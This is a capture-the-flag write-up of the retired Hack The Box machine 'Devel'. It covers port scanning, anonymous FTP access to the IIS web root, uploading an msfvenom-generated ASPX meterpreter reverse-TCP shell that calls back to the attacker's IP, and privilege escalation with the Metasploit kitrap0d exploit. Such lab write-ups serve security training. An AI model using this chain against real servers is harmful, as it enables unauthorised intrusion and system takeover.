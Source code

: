 ```yaml
---
layout: post
title: Devel
subtitle: Hack the Box - Devel
tags: [htb]
---
```


Hello Guys, This is my first HACK-THE-BOX writeup. This write-up is for the retired machine `DEVEL`.

So with out making any delay, we will start with a nmap scan. I always start with a full port scan using below nmap command.

```
nmap -p- --min-rate 5000 10.10.10.5 -oA nmap/fullport
```

![nmap scan](assets/img/htb-devel/fullport.png)

Then we will go for another scan with `A` flag and for specific open ports.

```
nmap -p 21,80 -A 10.10.14.3 -oA nmap/portscan
```

![portscan](assets/img/htb-devel/portscan.png)

So we can see here port 21/TCP - FTP and 80/TCP - HTTP are open.

For port 21, we can see that anonymous login is enabled. Let's login to port 21.

```
ftp 10.10.10.5
```

![ftp](assets/img/htb-devel/ftp.png)

Checked the directory aspnet_client but there's nothing much useful.

Now we can check the port 80 and see if we find anything useful. Opened the site in a web browser and found a default IIS7 page. It contains an image, when we check the image name in source page it is welcome.png.

![http](assets/img/htb-devel/http.png)

From the ftp directory listing we saw that there was a png file with name "wecome.png". Let's upload a file to ftp and see if we can access that from port 80. 

![ftptest](assets/img/htb-devel/ftptest.png)

And yes, that was accessible. Now we can load a aspx meterpreter payload and try to get a reverseshell.

Let's generate a payload using msfvenom.
```
msfvenom -p windows/meterpreter_reverse_tcp LHOST=10.10.14.3 LPORT=9999 -f aspx > shell.aspx 
```

Now the payload can be uploaded to the server using ftp.

![ftpupload](assets/img/htb-devel/ftpupload.png)

Let's open a metasploit listener for the payload. We have to set the options as per the msfvenom command.

![meterpreter](assets/img/htb-devel/meterpreter.png)

Now try to access the `shell.aspx` page and boom. We got the meterpreter session open for us. 

![shell](assets/img/htb-devel/shell.png)

But unfortunately we can't access the user directory. So we have to go for the privilege escalation. For that we can look for the `suggester` in metasploit. We can set the session to our open meterpreter session and hit `run`.

![suggested](assets/img/htb-devel/suggested.png)

We can try the exploits and see if we get the root access. While trying each exploit, I found that `windows/local/ms10_015_kitrap0d` seems to be working fine for me and I got the root access.

![root](assets/img/htb-devel/root.png)

Let's look for the flags.

![flags](assets/img/htb-devel/flags.png)

That's all about this write-up. Thanks for reading.
